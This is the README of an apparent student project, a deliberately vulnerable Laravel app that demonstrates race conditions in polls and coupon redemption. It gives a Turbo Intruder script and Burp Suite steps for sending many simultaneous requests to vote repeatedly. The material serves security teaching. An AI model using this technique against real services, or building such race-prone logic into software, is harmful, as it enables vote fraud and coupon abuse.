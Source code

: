 ## WIP - Race conditions in Laravel (demo)

Laravel is a very popular framework for building web applications in php. This is the reason we have chosen it for vulnerability demo purposes.

This repository contains demonstration of poor programming against race conditions. It contains several examples:

- Polls
- Coupons

In each part sleep is used to allow for easier exploit of race condition.

## Setup

1. Clone repository
2. Run `composer install`
3. Replace `.env` with `.env.example`
4. Create and connect to database
5. Run `php artisan migrate --seed` with default seeder
6. Run `php artisan serve` to start application. For testing race conditions local webserver should be used.
7. Log@in as `admin@admin.sk` and `adminadmin`

## Polls

First part is a simple polls app represented by Polls tab. In each poll user can vote only single time. Results of the poll can then be displayed in the Answers tab.

`/polls/2` (POST method) with body `answer: '5'`allows for voting in poll with id 2 and answer id 5

`/polls/revoke` allows for revoking all votes for currently logged in user

`/answers/` shows answer numbers for each poll

### Exploitation

1. Open up burp suite or similiar tool
2. Open inbuilt browser, login and navigate to polls
3. Start intercept mode and submit a vote
4. Copy request contents over to repeater
5. Boot up turbo intruder
6. Following script is used, where inside post the request to be repeated should be placed. Do not forget to put `\r\n\r\n` at the end of request (otherwise malformed HTTP request exception is raised)
```python
   def queueRequests(target, wordlists):
        engine = RequestEngine(endpoint=target.endpoint,
                               concurrentConnections=120,
                               requestsPerConnection=120,
                               pipeline=False)
        post = '''
            \r\n\r\n
            '''


        for i in range(1, 120):
            engine.queue(post, gate='race')

        engine.openGate('race');
        engine.complete(timeout=15)


        def handleResponse(req, interesting):
            if interesting:
                table.add(req)
```
7. Start attack and observe results. In case only one vote is added, make sure laravel is not run with `php artisan serve` but use local webserver like apache

## Coupons

Second part is a simple coupon redeeming app and can be found in Coupons tab. Simply choose a valid coupon and submit it in the Cart tab to redeem its value.

`/coupons/` lists all currently available coupons.

`/coupons/cart` lists current cart products with discount. Form for redeeming code is also supplied.

`/coupons/` (POST method) with body `code: 'AEZAKMI'` tries to redeem code AEZAKMI for current cart.

## TODO

- [x] Polls
- [x] Coupons
- [ ] Polls v2 (fixed)
- [ ] Coupons v2 (fixed)

## Licensing

Repository was created during semestral work in subject Information Technologies Security.
